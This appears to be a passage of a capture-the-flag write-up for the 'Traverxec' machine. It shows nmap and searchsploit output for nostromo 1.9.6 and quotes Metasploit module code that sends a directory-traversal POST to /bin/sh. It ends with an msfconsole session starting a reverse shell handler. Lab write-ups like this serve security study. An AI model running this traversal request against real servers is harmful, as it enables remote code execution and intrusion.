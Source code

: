 # recon
pymap
```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)


PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
```
- on the web we found out that the owner of the site is  **David White**
- 
```console
$ searchsploit nostro
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)        | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                      | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution        | linux/remote/35466.sh
---------------------------------------------------------------------------- ---------------------------------
```
in metasploit module 
```
 This module exploits a remote command execution vulnerability in
        Nostromo <= 1.9.6. This issue is caused by a directory traversal
        in the function `http_verify` in nostromo nhttpd allowing an attacker
        to achieve remote code execution via a crafted HTTP request.
```
seem like this will work prefect for us. But this time we will do something different. we will try to understand the expolit via Burp suit and just use the `msfconsole`. To check the src code I ran `searchsploit -x multiple/remote/47573.rb`
```rb
def execute_command(cmd, opts = {})
    send_request_cgi({
      'method'  => 'POST',
      'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
      'headers' => {'Content-Length:' => '1'},
      'data'    => "echo\necho\n#{cmd} 2>&1"
      }
    )
```
so it send a post request to `/.%0d./.%0d./.%0d./.%0d./bin/sh` and then `echo\necho\n#{cmd} 2>&1` I guess cmd is the reverse shell payload. in msfconsole run 
```
msf5 exploit(multi/http/nostromo_code_exec) > set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.43:4444 
[-] Exploit aborted due to failure: not-vulnerable: Set ForceExploit to override
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/nostromo_code_exec) > set ForceExploit true 
ForceExploit => true
```